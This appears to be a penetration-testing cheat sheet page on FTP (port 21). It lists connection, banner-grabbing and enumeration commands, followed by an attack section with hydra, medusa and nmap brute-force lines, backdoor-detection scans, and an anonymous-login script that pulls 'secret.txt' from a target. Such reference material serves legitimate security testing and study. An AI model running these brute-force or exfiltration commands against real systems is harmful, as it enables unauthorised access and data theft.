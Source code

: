 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# FTP (21)

## Usage

{% tabs %}
{% tab title="Connect" %}
```bash
# Connect to FTP server
ftp <target>

# No auto login (useful for scripts)
ftp -n <targetp> 

# Verbose mode         
ftp -v <target>          

# Log in as a specific user
ftp <user>@<target>
```
{% endtab %}

{% tab title="Banner Grabbing" %}
```bash
telnet <target> 21
nc <target> 21
```
{% endtab %}

{% tab title="Basic Commands" %}
```bash
# Basic FTP commands
ls                          # List files
dir                         # Detailed list of files
cd <directory>              # Change directory
lcd <local_directory>       # Change local directory
get <file>                  # Download file
mget <files>                # Download multiple files
put <file>                  # Upload file
mput <files>                # Upload multiple files
delete <file>               # Delete file
mkdir <directory>           # Create directory
rmdir <directory>           # Remove directory
pwd                         # Show remote current directory
bye / quit / exit           # Disconnect
```
{% endtab %}

{% tab title="Enumeration" %}
```bash
# Useful for enumeration
quote SYST                  # Get OS type
quote PASV                  # Check for passive mode
quote HELP                  # List server supported commands
quote STAT                  # Server status
quote FEAT                  # List server features
quote SITE HELP             # Site-specific commands
```
{% endtab %}
{% endtabs %}

## Attacks

{% tabs %}
{% tab title="BFA" %}
```bash
# Using hydra
hydra -l <user> -P <passlist> ftp://<target> 

# Using medusa
medusa -h <target> -u <user> -P <passlist> -M ftp

# Using nmap 
nmap -p 21 --script ftp-brute <target>
```
{% endtab %}

{% tab title="Vulnerability Recon" %}
{% code overflow="wrap" %}
```bash
nmap -p 21 --script ftp-anon,ftp-bounce,ftp-vsftpd-backdoor,ftp-proftpd-backdoor <target>
```
{% endcode %}
{% endtab %}

{% tab title="File Exfil" %}
```bash
# File exfiltration / upload with command-line FTP
echo "open <target>" > script.txt
echo "user anonymous anonymous" >> script.txt
echo "binary" >> script.txt
echo "get secret.txt" >> script.txt
echo "bye" >> script.txt
ftp -n -s:script.txt
```
{% endtab %}
{% endtabs %}
